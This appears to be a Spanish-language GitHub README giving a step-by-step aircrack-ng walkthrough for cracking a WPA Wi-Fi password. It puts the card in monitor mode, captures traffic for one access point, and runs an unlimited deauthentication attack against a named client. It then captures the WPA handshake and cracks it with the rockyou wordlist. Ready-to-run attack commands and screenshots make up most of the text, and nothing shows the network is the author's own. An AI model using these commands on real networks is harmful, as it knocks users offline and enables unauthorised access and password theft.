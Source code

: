 # Informacion importante de algunos de los comandos

 ![comandos-aircrak](https://github.com/luisjuarez099/Une-Hacks/assets/83623972/fb6f860a-2491-41bf-9a56-fc8152d71266)

 
 
 
 
## Vemos cual es el nombre de nuestra interfaz de red

	iwconfig

![iwconfig](https://github.com/luisjuarez099/Une-Hacks/assets/83623972/a2931782-dd40-44c4-92f0-a480efee4212)

Montamos a nuestra interfaz

	airmon-ng start wlp0s20f3  

### Foto 
> Volvemos a usar el comando **iwconfig** para mostrar que en nuestra tarjeta de red se haya hecho el montaje adecuado.

![image](https://github.com/luisjuarez099/Une-Hacks/assets/83623972/53d2d6d8-6a08-41a2-b7c1-9b776ca68094)


> [!Note]
> No en todas las ocaciones se hace ver el nombre con la extencon **mon**. La manera en la que yo veo que se llevo correcto el montaje es cuando he perdido el internet.


## Capturamos los paquetes de la red con el siguiente comando: 

	airodump-ng wlp0s20f3mon

### Foto

![analisis_red](https://github.com/luisjuarez099/Une-Hacks/assets/83623972/98ecd24a-9c01-4f60-a361-e0a7f5619e95)

## Analizamos las redes conectadas a un solo router
#### Explicacion del comando antes de ejecutar
Componentes del Comando

  *  `airodump-ng`: Esta es la herramienta principal del conjunto de herramientas aircrack-ng utilizada para capturar paquetes de redes inalámbricas y mostrar información sobre puntos de acceso y clientes conectados.

  *  `-c1`: Este es el canal en el que airodump-ng va a escuchar. El 1 indica que va a escuchar en el canal 1. Los canales de Wi-Fi varían de 1 a 14 (dependiendo de la región).

  *  `-w auditoria`: Este es el prefijo del nombre del archivo donde se guardarán los datos capturados. En este caso, los archivos de salida se llamarán auditoria-01.cap, auditoria-02.cap, etc.

  *  `-d 50:4E:DC:38:C2:60`: Este es el filtro de dirección MAC. airodump-ng solo capturará paquetes que tengan como destino o procedan de esta dirección MAC específica, que corresponde a un dispositivo o punto de acceso en particular.

  *  `wlp0s20f3mon`: Este es el nombre de la interfaz de red en modo monitor que se utilizará para la captura de paquetes. El modo monitor permite que la tarjeta de red capture todo el tráfico inalámbrico que puede recibir, no solo el tráfico destinado a ella.

```bash
airodump-ng -c1 -w auditoria -d 50:4E:DC:38:C2:60  wlp0s20f3mon
```
### Foto

![auditoria-2](https://github.com/luisjuarez099/Une-Hacks/assets/83623972/4bff2c5a-9e73-41fb-8410-cbb2a66923d9)


## Hacemos el ataque
```
aireplay-ng --deauth 0 -a 50:4E:DC:38:C2:60 -c B2:11:8E:B5:DF:0D  wlp0s20f3mon
```
### Foto


![ataque](https://github.com/luisjuarez099/Une-Hacks/assets/83623972/cca65636-9e6c-4bc8-96db-56f3019b0b26)


Esperamos a que salga en la parte de arriba 

> WPA handshake: 50:4E:DC:38:C2:60 

![image](https://github.com/luisjuarez099/Une-Hacks/assets/83623972/c59e0f83-6bdc-46dc-b68c-9ccf7981a13b)


## Comparamos la contrasen con nuestro archivo 

	aircrack-ng auditoria-01.cap -w rockyou.txt

### Foto

![crackingpss](https://github.com/luisjuarez099/Une-Hacks/assets/83623972/3bc59e9a-e8ef-40b7-a5b6-f8f3a6b5f51c)


## Regresamos a nuestra interfaz normal

	airmon-ng stop wlp0s20f3mon


![apagamos-montaje-interfaz](https://github.com/luisjuarez099/Une-Hacks/assets/83623972/673ac3b4-159a-4dab-8087-6839a0f2553e)

